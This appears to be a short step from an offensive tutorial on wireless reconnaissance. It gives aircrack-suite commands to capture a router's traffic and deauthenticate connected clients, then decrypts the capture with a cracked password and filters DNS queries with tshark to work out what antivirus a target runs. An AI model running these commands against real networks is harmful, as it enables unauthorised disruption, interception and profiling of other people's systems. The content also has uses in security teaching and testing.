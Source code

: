 # 04 - Gather Security Endpoints

After discovering the router's radio frequency presence then start capturing the packets.

```
# airodump-ng -c <channel> --bssid "00:20:91:B4:F8:33" --essid "NullByte_Network" -w wifi-capture.cap wlan0mon
```

Depending on the router's wireless encryption algorithm you will need to deauthenticate any client that is connected to the router then perform password cracking to decrypt the packet capture.

```
# aireplay-ng -0 100 -a <bssid> mon0
```

Once you've decrypted using `airdecap-ng` the packet capture open packet analysis software such as, Wireshark to inspect the network traffic.

```
# airdecap-ng -b "<bssid>" -e "<network_name>" -p "<password>" wifi-capture.cap

# tshark -r wifi-capture-dec.cap -n -T fields -e dns.qry.name | grep -i "avast\|avcdn" | sort -uo subdomains.txt
```

---
## References

### Null Byte

- [Null Byte: How to Identify Antivirus Software Installed on a Target's Windows 10 PC](https://null-byte.wonderhowto.com/how-to/identify-antivirus-software-installed-targets-windows-10-pc-0198775/)